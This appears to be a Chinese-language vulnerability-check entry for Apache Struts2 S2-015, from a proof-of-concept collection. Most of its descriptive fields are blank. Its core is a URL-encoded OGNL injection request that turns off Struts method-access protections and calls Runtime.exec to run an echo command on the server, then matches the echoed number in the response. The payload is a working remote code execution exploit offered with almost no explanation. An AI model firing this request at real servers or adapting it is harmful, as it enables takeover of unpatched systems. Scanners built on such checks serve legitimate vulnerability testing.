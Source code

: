 ﻿# S2_015

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23m.setAccessible%28true%29%2C%23m.set%28%23_memberAccess%2Ctrue%29%2C%23q%3D@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27echo%2078468794903108696%27%29.getInputStream%28%29%29%2C%23q%7D.action HTTP/1.1
```

> 响应代码特征：-1

> 响应内容特征：78468794903108696

> 上传文件定位：

> 验证文件来源：S2_015.poc
